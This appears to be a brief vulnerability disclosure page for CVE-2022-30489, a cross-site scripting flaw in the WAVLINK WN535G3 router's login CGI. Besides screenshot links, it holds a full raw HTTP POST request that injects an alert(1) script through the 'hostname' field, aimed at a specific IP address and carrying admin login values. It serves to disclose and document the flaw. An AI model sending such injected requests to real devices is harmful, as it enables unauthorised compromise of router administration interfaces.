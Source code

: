 # WAVLINK   WN535G3 POST XSS

# Use CVE-2022-30489

![image](https://user-images.githubusercontent.com/72059221/167049389-760be75c-6d84-45f6-a8aa-ff4e7e05241b.png)



![image](https://user-images.githubusercontent.com/72059221/167049403-82f98ff0-6774-4a6f-99f4-f712824c765b.png)



![image](https://user-images.githubusercontent.com/72059221/167049414-0eceb092-33b3-4bf6-93af-1e080c4fb314.png)


## PAYLOAD

```
POST /cgi-bin/login.cgi HTTP/1.1 Host: 98.127.66.193 Content-Length: 255 Cache-Control: max-age=0 Upgrade-Insecure-Requests: 1 Origin: http://98.127.66.193 Content-Type: application/x-www-form-urlencoded User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9 Referer: http://98.127.66.193/ Accept-Encoding: gzip, deflate Accept-Language: zh-CN,zh;q=0.9 Connection: close newUI=1&page=login&username=admin&langChange=0&ipaddr=171.113.240.243&login_page=login.shtml&homepage=main.shtml&sysinitpage=sysinit.shtml&hostname=")&lt;/&gt;&lt;&gt;alert(1)&lt;/&gt;&key=M27234733&password=63a36bceec2d3bba30d8611c323f4cda&lang_=cn
```



![image](https://user-images.githubusercontent.com/72059221/167049430-31952408-b40b-4263-a16f-41a3634540bf.png)


![image](https://user-images.githubusercontent.com/72059221/167049442-fc47e4a5-ec10-4feb-9488-70b86c07ec8c.png)


